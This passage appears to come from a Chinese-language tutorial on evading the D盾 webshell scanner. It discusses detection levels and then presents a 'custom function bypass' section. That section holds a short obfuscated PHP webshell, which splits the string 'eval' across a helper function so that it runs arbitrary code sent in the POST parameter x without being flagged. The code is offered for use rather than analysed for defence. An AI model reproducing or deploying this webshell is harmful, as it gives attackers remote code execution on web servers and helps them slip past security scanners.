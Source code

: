 
D盾检测出为1级，其实1级D盾就不会拦截，可以达到免杀效果：


![2020%2003%2018%2022%2005%20{second.png](../post_images/6d5bd32f5fffb3f21219be0a1437a100.png)


经过测试，D盾只要遇到这种疑似变量就会报危险，如下图，即使这个变量是⼀个⽆害的字符串，所以在这个问题 上⽆需深究。


![2020%2003%2018%2022%2006%20{second.png](../post_images/d92d91bbb8c58d86bdb862c2484b9bcb.png)


### ⾃定义函数绕过


```php
_<?php
function sys(){ return 'al($';
}
@eval('@ev'.sys().'POST[x]);');
?>_

```
